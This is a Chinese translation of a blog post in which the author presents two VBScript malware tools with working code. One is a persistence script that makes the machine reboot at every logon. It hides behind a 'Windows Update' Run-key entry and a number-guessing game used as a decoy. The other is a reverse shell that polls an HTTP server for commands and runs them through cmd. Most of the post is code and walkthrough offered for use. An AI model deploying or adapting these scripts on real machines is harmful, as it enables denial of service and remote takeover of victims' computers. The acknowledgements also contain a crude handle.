

# 有趣的 VBScript 恶意软件

> 原文：<https://infosecwriteups.com/fun-with-vbscript-malware-2f5bb0d107df?source=collection_archive---------0----------------------->

## 一个无限重启脚本和一个(有些错误的)反向 shell



# 目录一览

1.  介绍
2.  无限重启
3.  反向外壳
4.  最后的想法
5.  感谢
6.  引用的作品

# 介绍

Visual Basic 脚本语言(VBScript)是一种相当古老的解释语言，是微软 Visual Basic 语言的一个子集。它主要用于自动化系统管理任务，但也可能被恶意软件利用。其实众所周知的(In)著名的 LOVELETTER 病毒就是用 VBScript ( [病毒百科，n.d.](http://virus.wikidot.com/loveletter) )编写的。

在这里，我将讨论我编写的几个 VBScript 恶意软件工具，希望这些工具可以作为其他渗透测试人员和安全研究人员开发工具的“跳板”。

# 无限重启

我将从一个简单的脚本开始，它将导致计算机系统在登录后重新启动。该脚本将安装一个批处理文件，该文件将在用户登录时重新启动计算机，安装后，将启动一个“猜我的随机数”游戏，以防止用户怀疑:

运行此脚本将导致计算机“永久”重启，前提是:

*   这台计算机有稳定的电源
*   用户不执行冷关断
*   用户无法启动进入安全模式
*   登录的帐户就是启动上述脚本的帐户

让我们来分解一下脚本:

```
Option Explicit 
On Error Resume NextSet oFileSystem = CreateObject(“Scripting.FileSystemObject”)
Set WshShell = CreateObject(“WScript.Shell”)
```

`Option Explicit`和`On Error Resume Next`行只是解释器忽略运行时错误和其他日常事务的指令。

```
' Install the reboot scriptapp_data = WshShell.ExpandEnvironmentStrings(“%APPDATA%”)
full_install = app_data & “\winupdate.bat”If Not oFileSystem.FileExists(full_install) Then
    Set reboot_script = oFileSystem.CreateTextFile(full_install)
    reboot_script.WriteLine(“shutdown -r -t 00”)
    reboot_script.Close()WshShell.RegWrite “HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\Windows Update”, full_install, “REG_SZ”Set rs_map = oFileSystem.GetFile(full_install)
    rs_map.Attributes = 2End If
```

这将安装脚本。首先，它将使用`app_data = WshShell.ExpandEnvironmentStrings(“%APPDATA%”)`为有问题的用户计算出`AppData\Roaming`目录，并将该目录与目标文件名连接起来(在我的例子中是`winupdate.bat`)。

接下来，如果所述批处理文件尚不存在，脚本将继续将该批处理文件写入目标的 *AppData\Roaming* 目录。批处理文件中会写入命令`shutdown -r -t 00`，它会指示计算机立即重启。应该注意的是，YouTube 用户 [JayFilkins (2008)](https://youtu.be/NaxWSf83Ft8) 制作了他自己版本的“无限”重启脚本，该脚本利用了*Windows Management Instrumentation*(WMI)，而不是简单地使用命令行。

最后，我编写了一个小的随机数猜谜游戏，让用户(希望毫无戒心)不知道我的脚本的恶意性质:

```
Sub NumbersGamedone = False
    total_guesses = 0
    Randomize
    target = FormatNumber(Int((100 * Rnd) + 1))Do Until done
        input = InputBox(“Type your guess:”, “Pick a number between 1 and 100”)
        total_guesses = total_guesses + 1
        If Len(input) <> 0 Then
            If IsNumeric(input) Then
                If FormatNumber(input) = target Then
                    MsgBox(“Yes, the random number is “ & input & “ and it took you “ & total_guesses & “ guesses to get there!”)
                    done = True
                End If
                If FormatNumber(input) < target Then
                    MsgBox(“Your guess is too small”)
                End If
                If FormatNumber(input) > target Then
                    MsgBox(“You guess is too large”)
                End If
            Else
                MsgBox(“Please enter in a number.”)
        End If
        Else
            MsgBox(“Please play again soon!”)
            done = True
        End If
    Loop
End SubCall NumbersGame
```

这个脚本是福特(2014，ch。6).它首先初始化三个变量:

*   脚本将循环运行，直到目标正确猜出数字。当目标猜中数字时，`done`将被设置为`True`。
*   `total_guesses = 0`这将记录目标猜测的次数。
*   `target = FormatNumber(Int((100 * Rnd) + 1))`这将是游戏的中奖随机数。注意脚本如何使用`Randomize` 语句来避免使用纯粹确定性的数字。

```
Do Until done
     input = InputBox(“Type your guess:”, “Pick a number between 1 and 100”)
     total_guesses = total_guesses + 1
     [ ... ]
Loop
```

这个非常简单:在`done`被设置为`True`之前，脚本会要求目标输入他们对一个数字的猜测，并将猜测的总数增加 1。

```
If Len(input) <> 0 Then
    If IsNumeric(input) Then
        If FormatNumber(input) = target Then
            MsgBox(“Yes, the random number is “ & input & “ and it took you “ & total_guesses & “ guesses to get there!”)
            done = True
        End If
        If FormatNumber(input) < target Then
            MsgBox(“Your guess is too small”)
        End If
        If FormatNumber(input) > target Then
            MsgBox(“You guess is too large”)
        End If
    Else
        MsgBox(“Please enter in a number.”)
    End If
Else
    MsgBox(“Please play again soon!”)
    done = True
End If
```

在这里，检查输入是否为空(如果是，那么游戏将关闭)，看一个数字是否确实是一个数字，然后将输入与猜测进行比较。

如果输入匹配目标变量，那么程序将祝贺用户并结束。如果不是，那么循环将继续，直到用户猜出正确的数字，脚本将提醒用户数字是太大还是太小。

这只是一个可以开玩笑的小恶作剧，可以通过引导进入 *Windows 安全模式*(通常通过 F4/F5/F6/F8 键)并删除`AppData\Roaming`目录中的`winupdate.bat`文件以及删除 HKCU 运行注册表项中的“Windows Update”条目来轻松删除。

# 反向外壳

这个脚本是一个小型的基本反向 shell:

它将自己安装到当前用户的`AppData\Roaming`目录中，然后从外部 HTTP 服务器寻找命令。这个概念和一些代码“风格”——因为缺乏更好的术语——是从 [Picard (2018)](http://breakpoint.purrfect.fr/article/vbs_reverse_shell.html) 借来的，但尽管如此，我确实觉得我能够做出足够大的改变，可以称之为我自己独特的东西。

和“无限重启”脚本一样，这个脚本会自动安装到计算机上。然而，由于安装机制非常类似于我所说的无限重启脚本，我就不赘述了。我将只关注与 HTTP 服务器通信以执行命令的部分。

首先，我将定义一个指向 HTTP 服务器及其相应端口的 Const 变量，以及一个名为`done`并设置为`False`的布尔变量:

```
Const server = "http://10.0.2.2:8000/command.txt"[ ... ]done = False
```

然后我会设置一个 Do 循环

```
Do Until done
	[ ... ]
Loop
```

在这个循环中，我将连接到 HTTP 服务器，打开一个对文本文件的 GET 请求，其中包含要执行的命令:

```
Set XMLHTTP = CreateObject("MSXML2.XMLHTTP.3.0")
XMLHTTP.open "GET", server, False
XMLHTTP.send
command = XMLHTTP.responseText
```

在获取命令的文本文件并存储在`command`变量中后，将使用一点条件逻辑来决定是否退出脚本的执行、卸载脚本或执行命令:

```
If InStr(command, "EXIT") Then
    done = True
End If

If InStr(command, "REMOVE") Then
    WshShell.RegDelete "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\Windows Update"
    Set delete_me = oFileSystem.CreateTextFile(oFileSystem.GetSpecialFolder(2) & "\romcs.bat")
    delete_me.WriteLine("@echo off")
    delete_me.WriteLine("timeout 10")
    delete_me.Close()

    WshShell.Run oFileSystem.GetSpecialFolder(2) & "\romcs.bat"
    done = True
Else
    WshShell.Run "cmd /c " & command, 0, True
End If

WScript.Sleep(15000)
```

如果`command`变量有一个`EXIT`，脚本将关闭，或者如果`command`变量有一个`REMOVE`，脚本将尝试卸载。否则，脚本将通过`cmd /c <command to execute>`运行命令，并休眠大约十五(15)秒。

请注意， *Windows Defender* 或其他一些反病毒工具可能会试图阻止脚本的`WshShell.Run`部分执行代码(正如我测试这些脚本时发生的情况)。

# 最后的想法

对于你们中的一些人来说，我对我的(相当简单的)VBScript 恶意软件的评论可能被视为“儿戏”或“新手的东西”，这是一个公平的批评。这只是我在试验不同种类的恶意软件工具，这些工具可用于渗透测试或计算机网络操作。

请记住，如果您决定在您的渗透测试项目中使用我的脚本，一定要彻底测试它们，并了解它们可能存在的任何潜在弱点。

# 承认

黑客 Fantastic，Agnes Driscoll， [@krichard1212](https://twitter.com/krichard1212) ， [@anal_sex42069](https://twitter.com/anal_sex42069) ， [@TheExiaRoss00](https://twitter.com/TheExiaRoss00) ，阿曼达卢梭，艾登帕拉丁，纳西姆塔勒布。

我还想提醒大家注意特雷冯·马丁、迈克·布朗和乔治·弗洛伊德——他们是我们种族主义制度的受害者，我们需要对这种制度采取一些措施。

# 引用的作品

福特律师事务所(2014 年)。*微软 WSH 和 VBScript 编程绝对初学者*(第 4 版。).俄亥俄州梅森:森盖奇学习定制出版。

JayFilkins (2008)。*如何编写 VBScript 病毒/木马*。YouTube。2021 年 4 月 6 日检索自:[https://youtu.be/NaxWSf83Ft8](https://youtu.be/NaxWSf83Ft8)

皮卡尔，C. (2018)。 *VBS 反壳*。断点。2021 年 4 月 6 日检索自:[http://breakpoint . purfect . fr/article/VBS _ reverse _ shell . html](http://breakpoint.purrfect.fr/article/vbs_reverse_shell.html)

病毒百科全书(未注明)。*情书*。2021 年 4 月 6 日检索自:【http://virus.wikidot.com/loveletter 